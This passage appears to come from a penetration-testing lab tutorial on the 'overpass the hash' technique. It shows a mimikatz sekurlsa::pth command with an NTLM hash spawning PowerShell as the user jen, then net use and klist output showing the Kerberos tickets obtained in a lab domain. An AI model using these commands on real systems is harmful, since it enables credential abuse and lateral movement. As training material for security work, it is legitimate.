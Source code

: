 ```shell
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell 
user    : jen
domain  : corp.com
program : powershell
impers. : no
NTLM    : 369def79d8372408bf6e93364cc93075
  |  PID  8716
  |  TID  8348
  |  LSA Process is now R/W
  |  LUID 0 ; 16534348 (00000000:00fc4b4c)
  \_ msv1_0   - data copy @ 000001F3D5C69330 : OK !
  \_ kerberos - data copy @ 000001F3D5D366C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F3D5C63B68 (32) -> null
```

At this point, we have a new PowerShell session that allows us to execute commands as _jen_. Running the _whoami_ command on the newly created PowerShell session would show _jeff_'s identity instead of _jen_. While this could be confusing, this is the intended behavior of the _whoami_ utility which only checks the current process's token and it does not inspect any imported kerberos tickets

Let's list the cached Kerberos tickets with **klist**.

```shell
PS C:\Windows\system32> klist

Current LogonId is 0:0x1583ae

Cached Tickets: (0)
```

No Kerberos tickets have been cached, but this is expected since _jen_ has not yet performed an interactive login. Let's generate a TGT by authenticating to a network share on the files04 server with **net use**.

```
PS C:\Windows\system32> net use \\files04
The command completed successfully.

PS C:\Windows\system32> klist

Current LogonId is 0:0x17239e

Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
```